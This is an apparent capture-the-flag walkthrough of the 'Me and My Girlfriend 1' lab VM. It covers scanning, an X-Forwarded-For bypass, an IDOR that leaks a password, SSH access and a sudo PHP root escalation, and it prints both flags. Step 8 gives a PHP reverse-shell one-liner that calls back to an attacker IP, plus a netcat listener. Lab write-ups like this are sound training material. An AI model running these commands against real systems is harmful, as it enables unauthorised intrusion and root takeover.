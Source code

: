 
# Me and My Girlfriend 1: Walkthrough

To find the IP of the VM, I performed an ARP scan:  
![img](./ss/arp.png)\
Found the IP: `192.168.122.3`

## Step 1: Nmap Scan
Performed an Nmap scan:  
![img](./ss/nmap.png)\
Discovered Apache is running. Let’s access it.

## Step 2: Accessing the Web Page
Accessing the IP in browser led to an access denied page:  
![img](./ss/site.png)\
**Tip:** Always check source code of pages.  
Found a hidden message in the source:  
![img](./ss/sourcecode.png)\
It hinted at using `X-Forwarded-For` header.

## Step 3: Using BurpSuite to Add Header
I opened BurpSuite, intercepted the request and added the `x-forwarded-to` header:  
![img](./ss/burp.png)\
Success! Gained access to "Ceban Corp":  
![img](./ss/ceban.png)

## Step 4: Exploring the App
Tried SQL injection on login page – didn’t work. So I registered an account:  
![img](./ss/rgstr.png)\
Logged in and checked profile section. The URL had an `id` parameter:  
![img](./ss/profile.png)

## Step 5: Testing for IDOR
Suspected an IDOR vulnerability – tested by changing `id` values. It worked!  
Stumbled upon an interesting user profile page with `id=5`,
Box description mentioned “Alice” so this user is important: 
![img](./ss/alice.png)\
Modified input type using browser dev tools and revealed password: `4lic3`  
![img](./ss/inspect.png)
![img](./ss/4lic3.png)

## Step 6: SSH Access
Since SSH was running, tried Alice’s creds:  
![img](./ss/ssh.png)\
And BOOM! Got in as alice.

## Step 7: Getting the User Flag
Couldn’t find anything obvious, so I explored hidden directories. Found a hidden directory `my_secret`:  
![img](./ss/ls.png)\
Inside the `my_secret` folder – flag1.txt: `gfriEND{2f5f21b2af1b8c3e227bcf35544f8f09}` and a note \
(poor Bob):  
![img](./ss/flag1.png)

## Step 8: Privilege Escalation
Checked sudo permissions – saw Alice can run PHP as root:  
![img](./ss/sudo.png)\
Upgraded to root with the following command as PHP is sudo-able:  
```bash
sudo php -r 'system("/bin/bash");'
```  
![img](./ss/php.png)

### Alternative method:
```bash
sudo php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```
note: IP is the ip of attack device not of the victim device.\
And on another terminal(to recieve):  
```bash
nc -pvl PORT
```

## Step 9: Getting the Root Flag
Now that we’re root, headed for the flag:  
![img](./ss/flag2.png)\
Found: `gfriEND{56fbeef560930e77ff984b644fde66e7}`

---

## 🏁 Conclusion

This box was a great mix of basic enumeration, bypass techniques, and web exploitation (X-Forwarded-For header, IDOR, dev tools).  
It reinforced the importance of:

- Always checking page source and URLs
- Thinking from a user access point of view
- Exploring every input for unintended access or leakage

Loved the progression from simple access control to privilege escalation. On to the next one! 💥
